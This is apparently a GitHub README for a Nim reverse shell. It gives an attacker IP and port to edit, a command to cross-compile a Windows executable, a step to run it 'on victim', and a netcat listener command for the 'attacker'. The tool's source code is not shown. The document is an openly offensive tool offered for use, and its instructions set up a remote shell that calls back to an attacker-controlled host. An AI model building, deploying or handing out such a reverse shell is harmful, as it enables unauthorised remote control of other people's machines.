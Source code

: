 # nim_reverse_shell

## A simple reverse shell with nim code.

# How to build and run?

### Change this code snippet
```shell
var ip = "10.0.0.183"
var port = 1337
```

### Change this code snippet
```shell
Build the reverse shell:
nim c --d:mingw --cpu=amd64 reverse.nim
On victim:
./reverse.exe
On Attacker:
nc -vnlp 1337
```
